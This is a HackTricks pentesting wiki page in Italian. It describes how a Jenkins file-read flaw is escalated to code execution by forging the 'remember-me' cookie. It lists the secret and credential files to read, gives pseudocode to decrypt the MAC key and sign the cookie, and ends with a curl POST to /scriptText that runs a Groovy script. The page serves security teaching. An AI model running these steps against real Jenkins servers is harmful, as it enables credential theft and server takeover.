 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In questo post del blog è possibile trovare un ottimo modo per trasformare una vulnerabilità di Local File Inclusion in Jenkins in RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Questo è un riassunto creato dall'AI della parte del post in cui l'artefatto di un cookie arbitrario viene abusato per ottenere RCE abusando di una lettura di file locale fino a quando non ho tempo per creare un riassunto da solo:

### Requisiti per l'attacco

* **Requisito di funzionalità:** "Ricordami" deve essere abilitato (impostazione predefinita).
* **Livelli di accesso:** L'attaccante ha bisogno di permessi Generali/Di lettura.
* **Accesso segreto:** Capacità di leggere sia contenuti binari che testuali da file chiave.

### Processo di sfruttamento dettagliato

#### Passo 1: Raccolta dati

**Recupero delle informazioni utente**

* Accedere alla configurazione utente e ai segreti da `$JENKINS_HOME/users/*.xml` per ciascun utente per raccogliere:
* **Nome utente**
* **Seed utente**
* **Timestamp**
* **Hash della password**

**Estrazione della chiave segreta**

* Estrarre le chiavi crittografiche utilizzate per firmare il cookie:
* **Chiave segreta:** `$JENKINS_HOME/secret.key`
* **Chiave master:** `$JENKINS_HOME/secrets/master.key`
* **File chiave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forgiatura del cookie

**Preparazione del token**

*   **Calcolare il tempo di scadenza del token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Aggiunge un'ora all'ora attuale
```
{% endcode %}
*   **Concatenare i dati per il token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Decrittazione della chiave MAC**

*   **Decrittare il file chiave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertire la chiave master nel formato chiave AES128
decrypted = AES.decrypt(macFile, key)  // Decrittare il file .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcolo della firma**

*   **Calcolare HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcolare HMAC utilizzando il token e la chiave MAC
tokenSignature = bytesToHexString(mac)  // Convertire il MAC in una stringa esadecimale
```

**Codifica del cookie**

*   **Generare il cookie finale:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificare in Base64 i dati del cookie
```
{% endcode %}

#### Passo 3: Esecuzione del codice

**Autenticazione della sessione**

* **Recuperare i token CSRF e di sessione:**
* Effettuare una richiesta a `/crumbIssuer/api/json` per ottenere `Jenkins-Crumb`.
* Catturare `JSESSIONID` dalla risposta, che sarà utilizzato insieme al cookie "remember-me".

**Richiesta di esecuzione del comando**

*   **Inviare una richiesta POST con uno script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Lo script Groovy può essere utilizzato per eseguire comandi a livello di sistema o altre operazioni all'interno dell'ambiente Jenkins.

L'esempio di comando curl fornito dimostra come effettuare una richiesta a Jenkins con le intestazioni e i cookie necessari per eseguire codice arbitrario in modo sicuro.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
